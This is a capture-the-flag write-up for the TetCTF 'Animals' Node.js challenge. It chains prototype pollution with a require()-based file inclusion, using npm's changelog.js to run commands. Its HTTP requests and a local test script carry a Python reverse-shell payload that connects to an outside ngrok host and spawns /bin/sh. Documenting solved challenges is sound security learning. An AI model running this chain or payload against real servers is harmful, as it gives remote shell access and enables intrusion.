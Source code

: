 # Animals

{% file src="../../.gitbook/assets/animals-countdown.zip" %}

There is a prototype pollution vulnerability in `/api/tet/list` when merging the request data:

```javascript
app.post('/api/tet/list', function (req, res, next) {
    try {
        const getList1 = require("./static/list-2010-2016.js")
        const getList2 = require("./static/list-2017-2022.js")
        let newList = merge(getList1.all(), getList2.all())
        let data = req.body.data || "";
        newList = merge(newList, data);
        res.json(newList)
    } catch (error) {
        res.send(error)
    }
})
```

Furthermore, user input being passed to `require()` leads to a LFI vulnerability.

```javascript
app.post('/api/tet/years', function (req, res, next) {
    try {
        const list = req.body.list.toString();
        const getList = require("./static/" + list)
        res.json(getList.all())
    } catch (error) {
        console.log(error);
        res.send(error)
    }
})
```

If we could find a _valid `.js` file_ that _uses an attribute that we are able to pollute_ to spawn a new process or execute a command, then we could escalate this to an RCE.

In the Docker container, the most likely place where we could find a suitable candidate would be in the `node_modules` folder, containing the source code of the installed modules.

Doing a simple search for the `child_process` string, we could find some interesting scripts:

```
$ cd /usr/local/lib/node_modules
$ grep -r "child_process" .

...

./npm/scripts/changelog.js:const execSync = require('child_process').execSync
./npm/scripts/update-dist-tags.js:const { execSync } = require('child_process')
```

The `changelog.js` script indeed has an `execSync` call with a possible command injection.

```javascript
'use strict'
/*
Usage:

node scripts/changelog.js [comittish]

Generates changelog entries in our format as best as its able based on
commits starting at comittish, or if that's not passed, latest.

Ordinarily this is run via the gen-changelog shell script, which appends
the result to the changelog.

*/
const execSync = require('child_process').execSync
const branch = process.argv[2] || 'origin/latest'
const log = execSync(`git log --reverse --pretty='format:%h %H%d %s (%aN)%n%b%n---%n' ${branch}...`).toString().split(/\n/)
```

Since the `require()` call would not pass in any arguments, `process.argv[2]` is undefined. Therefore, we can pollute `process.argv[2]` with a command injection payload before importing the `changelog.js` file.

Testing this locally:

```javascript
let a = {}

const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (dest, src) => {
    for (var attr in src) {
        console.log(attr);
        if (isObject(dest[attr]) && isObject(src[attr])) {
            merge(dest[attr], src[attr]);
        } else {
            dest[attr] = src[attr];
        }
    }
    return dest
};

b = { 
    ['__proto__']: { 
        '2': "; python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"6.tcp.ngrok.io\",13984));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")';"
    } 
}

merge(a, b);
require('./changelog.js');
```

To perform this exploit chain on web server, we first perform the prototype pollution:

```http
POST /api/tet/list HTTP/1.1

...

Content-Type: application/json

{
    "data": {
        "__proto__": {
            "2":"; python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"6.tcp.ngrok.io\",13984));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")';"
        }
    }
}
```

Then, we exploit the LFI vulnerability to execute the `changelog.js` script.

```http
POST /api/tet/years HTTP/1.1

...

Content-Type: application/json
Content-Length: 81

{"list":"../../../../../usr/local/lib/node_modules/npm/scripts/changelog.js"}
```

This should grant us our reverse shell.

```
$ cd /
$ ./readflag
TetCTF{c0mbine_p0lLut3_lFiii_withN0d3<3}
```
